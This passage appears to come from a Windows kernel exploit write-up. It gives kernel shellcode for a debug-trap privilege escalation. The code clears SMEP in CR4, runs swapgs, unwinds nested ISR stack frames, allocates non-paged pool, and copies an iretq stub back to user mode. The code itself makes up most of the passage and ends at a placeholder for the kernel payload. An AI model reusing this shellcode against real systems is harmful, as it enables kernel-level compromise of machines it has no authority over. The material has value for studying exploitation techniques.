 In our shellcode, we will need to restore the CR4 value, swapgs, rollback ISR stack, execute the code we want and IRETQ back to user-mode which can be done like below:

```
NON_PAGED_DATA fnFreeCall k_ExAllocatePool = 0;

using fnIRetToVulnStub = void( * )  ( uint64_t Cr4, uint64_t IsrStack, PVOID ContextBackup );
NON_PAGED_DATA BYTE IRetToVulnStub[] = 
{
  0x0F, 0x22, 0xE1,		// mov cr4, rcx ; cr4 = original cr4
  0x48, 0x89, 0xD4,		// mov rsp, rdx ; stack = isr stack
  0x4C, 0x89, 0xC1,		// mov rcx, r8  ; rcx = ContextBackup
  0xFB,				        // sti          ; enable interrupts
  0x48, 0xCF			     // iretq        ; interrupt return
};

NON_PAGED_CODE void KernelShellcode()
{
  __writedr( 7, 0 );

  uint64_t Cr4Old = __readgsqword( Offset_Pcr__Prcb + Offset_Prcb__Cr4 );
  __writecr4( Cr4Old & ~( 1 << 20 ) );

  __swapgs();

  uint64_t IsrStackIterator = PredictedNextRsp - StackDelta - 0x38;

  // Unroll nested KiBreakpointTrap -> KiDebugTrapOrFault -> KiTrapDebugOrFault
  while ( 
    ( ( ISR_STACK* ) IsrStackIterator )->CS == 0x10 &&
    ( ( ISR_STACK* ) IsrStackIterator )->RIP > 0x7FFFFFFEFFFF )
  {

    __rollback_isr( IsrStackIterator );

    // We are @ KiBreakpointTrap -> KiDebugTrapOrFault, which won't follow the RSP Delta
    if ( ( ( ISR_STACK* ) ( IsrStackIterator + 0x30 ) )->CS == 0x33 )
    {
      /*
      fffff00e`d7a1bc38 fffff8007e4175c0 nt!KiBreakpointTrap
      fffff00e`d7a1bc40 0000000000000010 
      fffff00e`d7a1bc48 0000000000000002 
      fffff00e`d7a1bc50 fffff00ed7a1bc68 
      fffff00e`d7a1bc58 0000000000000000 
      fffff00e`d7a1bc60 0000000000000014 
      fffff00e`d7a1bc68 00007ff7e2261e95 --
      fffff00e`d7a1bc70 0000000000000033 
      fffff00e`d7a1bc78 0000000000000202 
      fffff00e`d7a1bc80 000000ad39b6f938 
      */
      IsrStackIterator = IsrStackIterator + 0x30;
      break;
    }

    IsrStackIterator -= StackDelta;
  }


  PVOID KStub = ( PVOID ) k_ExAllocatePool( 0ull, ( uint64_t )sizeof( IRetToVulnStub ) );
  Np_memcpy( KStub, IRetToVulnStub, sizeof( IRetToVulnStub ) );

  // ------ KERNEL CODE ------

  ....
```